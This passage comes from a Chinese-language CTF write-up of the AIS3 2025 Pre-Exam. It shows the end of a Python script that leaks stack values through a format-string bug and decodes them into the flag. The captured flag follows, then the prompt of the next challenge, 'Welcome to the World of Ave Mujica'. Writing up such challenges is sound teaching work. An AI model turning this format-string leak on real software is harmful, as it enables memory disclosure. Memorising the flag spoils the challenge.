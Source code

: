 ```python=
    result = p.recvline().strip().replace(b'%', b'').replace(b'\\', b'').replace(b'$d', b'').decode()

    p.close()

    return result

data = []

for i in range(0, 100):
    response = int(leak_stack(i))
    print(f"\rRunning: {i}/100", end='')
    if response > 0 and response < 256:
        data.append(response)

print("\nThe result is: ", end='')

for i in data:
    print(chr(i), end='')
```

Flag：`AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}`

### Welcome to the World of Ave Mujica🌙

#### 題目

> 就將一切委身於 Ave Mujica 吧...
> 
> ![3893df60d1aa4e921d82b837e5aab9c2](/posts/2025-AIS3-PreExam-MyFirstCTF-Writeup/image13.webp)
> 
> Flag 在 /flag，這題的 flag 有 Unicode 字元，請找到 flag 之後直接提交到平台上，如果因為一些玄學問題 CTFd 送不過請 base64 flag 出來用 CyberChef decode 應該就可以了
> 
> [Instancer](http://chals1.ais3.org:60000/)
